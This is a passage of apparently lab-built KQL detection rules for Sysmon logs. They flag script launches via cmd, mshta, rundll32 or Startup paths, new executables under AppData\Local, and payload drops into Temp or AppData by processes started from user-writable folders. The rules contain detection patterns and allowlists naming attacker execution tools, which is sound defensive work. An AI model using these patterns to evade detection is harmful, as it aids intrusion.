        or proc_lc matches regex @"\\cmd\.exe$"
        or proc_lc matches regex @"\\mshta\.exe$"
        or proc_lc matches regex @"\\rundll32\.exe$"
        or proc_lc matches regex @"\\javaw?\.exe$"
    // Evidence of script path or Startup path on the cmdline
    | where cmd_lc has_any (".vbs",".vbe",".ps1",".js",".jse",".wsf",".wsh",".hta",".bat",".cmd",".lnk",".scr")
        or cmd_lc has @"\microsoft\windows\start menu\programs\startup\"
    // Typical installer/updater noise (expand with signer/parent checks)
    | where not(cmd_lc contains "azcmagent" or cmd_lc contains "check_updates.ps1")
    | where tolower(parent_process_name) !in ("msiexec.exe","setup.exe","gc_arc_service.exe")
    // Known benign GoogleUpdater uninstall flow
    | where not( cmd_lc has @"\program files (x86)\google\googleupdater\" and cmd_lc has "uninstall.cmd" )
    | extend a_user_name = user_name
    | extend detection = "startup_exec"
    | project time_generated, computer, a_user_name, detection,
              process_id, process_path, command_line, parent_process_name;

// Fire if either signal appears
union s_drop, s_exec
| order by time_generated desc
| extend user_name = coalesce(a_user_name, b_user_name)
| project-away a_user_name, b_user_name
```

#### Suspicious AppData\Local EXE creation: 
```kusto
// Rule: Suspicious EXE creation under AppData\Local\<folder>
// Why: Attackers commonly drop or unpack payloads into user-writable AppData\Local subfolders.
// Lab note: Current allowlist is hardcoded to reduce noise (Microsoft, WindowsApps, etc.).
// Prod note: Replace static folder/process excludes with enrichment, such as signer verification, EDR telemetry, VT reputation, and injection context.

// FileCreate (Sysmon EID 11) - normalize fields
let fc = Sysmon_11_FileCreate()
| where isnotempty(target_filename)
| extend target_filename_s = tostring(target_filename)
| extend path = tolower(target_filename_s),
         pid_s = tostring(process_id);

// Candidate EXEs created under AppData\Local\<folder>
let exes = fc
| where path has @"\appdata\local\" and file_ext == "exe"
| extend parent_folder = extract(@"(.*\\appdata\\local\\[^\\]+)\\", 1, path)
| where isnotempty(parent_folder);

// First observed write in each parent folder (baseline)
let first_seen_parent = fc
| extend parent_folder = extract(@"(.*\\appdata\\local\\[^\\]+)\\", 1, path)
| where isnotempty(parent_folder)
| summarize first_seen = min(time_generated) by parent_folder;

// Allowlists (lab-only, replace with richer checks in production)
let allowed_parent_folders = dynamic([
  "\\appdata\\local\\microsoft\\",
  "\\appdata\\local\\packages\\",
  "\\appdata\\local\\windowsapps\\",
  "\\appdata\\local\\package cache\\",
  "\\appdata\\local\\packagecache\\",
  "\\appdata\\local\\discord"
]);
let allowed_creators = dynamic([
  "sysmon.exe","onedrive.exe","onedrivesetup.exe","msiexec.exe","setup.exe","installer.exe"
]);

// Base detection: suspicious EXEs in new parent folders within 10m
let base = exes
| join kind=inner (first_seen_parent) on parent_folder
| where time_generated - first_seen <= 10m
| where not(tolower(parent_folder) has_any (allowed_parent_folders))
| where tolower(process_name) !in (allowed_creators)
| project time_generated, computer, user_name, parent_folder,
          target_filename_s, process_name, process_path, pid_s;

// ProcessCreate (Sysmon EID 1) for enrichment
let pc = Sysmon_1_ProcessCreate()
| extend pid_s = tostring(process_id)
| project pc_time = time_generated, computer, pid_s,
          command_line, parent_process_name, parent_process_path;

// Enrich Rule hits with nearest ProcessCreate for same PID (within 10m)
base
| join kind=leftouter (pc) on computer, pid_s
| extend time_diff_s = abs(datetime_diff('second', time_generated, pc_time))
| where isnull(time_diff_s) or time_diff_s <= 600
| summarize arg_min(time_diff_s, *) by time_generated, computer, pid_s, target_filename_s
| project time_generated, computer, user_name,
          parent_folder, target_filename = target_filename_s,
          process_name, process_path, process_id = pid_s,
          command_line, parent_process_name, parent_process_path, time_diff_s
| order by time_generated desc
```

#### User-writable parent -> drop to Temp/AppData:
```kusto
// Rule: Child process (spawned by a user-writable parent) writes to AppData/Temp soon after start.
// Why: Malware often launches from user-writable dirs and quickly drops/unwraps payloads nearby.
// Lab note: Allowlist below suppresses known benign parents (Discord/OneDrive/Defender).
// Prod note: Replace static allowlist with signer/EDR/TI enrichment (publisher, reputation, path controls).

let window = 3m;

// Candidate set: child processes whose parent image path is user-writable (not \Windows\*)
let parents =
    Sysmon_1_ProcessCreate()
    | extend parent_path = tolower(parent_process_path),
             process_path = tolower(process_path)
    | where isnotempty(parent_path)
    | where parent_path has_any(@"\users\", @"\appdata\", @"\programdata\", @"\local\temp\")
    | where parent_path !has @"\windows\"
    // Tuning: exclude WerFault (crash handler) noise from parent context
    | where parent_process_name != "werfault.exe"
    // Lab-only allowlist to cut noise (replace with EDR/AV + TI correlation in prod)
    | where parent_path !in (
        @"c:\users\shawnspencer\appdata\local\microsoft\onedrive\update\onedrivesetup.exe",
        @"c:\users\shawnspencer\appdata\local\discord\update.exe",
        @"c:\programdata\microsoft\windows defender\platform\4.18.25080.5-0\msmpeng.exe",
        @"c:\users\shawnspencer\appdata\local\microsoft\onedrive\onedrivestandaloneupdater.exe"
      )
      | extend user_name = tostring(column_ifexists("user_name",""))
    | project p_time = time_generated, computer, process_id, process_path, command_line,
              parent_process_id, parent_process_path = parent_path, parent_process_name, parent_command_line, user_name;

// Drops: file creates into Temp/AppData/Desktop within `window` of the child's start time (p_time)
let drops =
    Sysmon_11_FileCreate()
    | extend tgt = tolower(target_filename)
    | where tgt has_any(@"\appdata\local\", @"\appdata\roaming\", @"\local\temp\", @"\temp\", @"\desktop\")
    | where tgt !has @"\appdata\local\google\chrome\user data\default\cache\"
      and tgt !has @"\appdata\local\microsoft\edge\user data\default\cache\"
      and not(tgt matches regex @"\\~\$.+\.(docx|xlsx|pptx)$")
    // Fill extension if Sysmon didn't populate file_ext (derive from path)
    | extend file_ext = iff(isempty(file_ext), tostring(extract(@"\.([a-z0-9]{1,8})$", 1, tgt)), file_ext)
    | project file_time = time_generated, computer,
              drop_process_id = process_id,
              target_filename = tgt, file_ext;

// Join EID 1 (process start) <-> EID 11 (file create) for the same child PID
parents
| join kind=inner (drops) on computer
| where drop_process_id == process_id
| where file_time between (p_time .. p_time + window)
| summarize
    first_seen   = min(file_time),
    last_seen    = max(file_time),
    drop_events  = count(),
    sample_targets = make_set(target_filename, 15),
    sample_exts    = make_set(file_ext, 10),
    arg_max(file_time, process_id, parent_process_id, command_line, parent_command_line, process_path, parent_process_path)
  by bin(file_time, 10m),
     computer,
     tostring(process_path),
     tostring(parent_process_path),
     tostring(parent_process_name),
     tostring(user_name)
| project time_generated = first_seen, last_seen, drop_events,
         computer,
         user_name            = tostring(user_name),
         parent_process_name  = tostring(parent_process_name),
         parent_process_path  = tostring(parent_process_path),
         parent_process_id,
         process_path         = tostring(process_path),
         process_id,
         command_line, parent_command_line,
         sample_exts, sample_targets
| order by last_seen desc
```

---


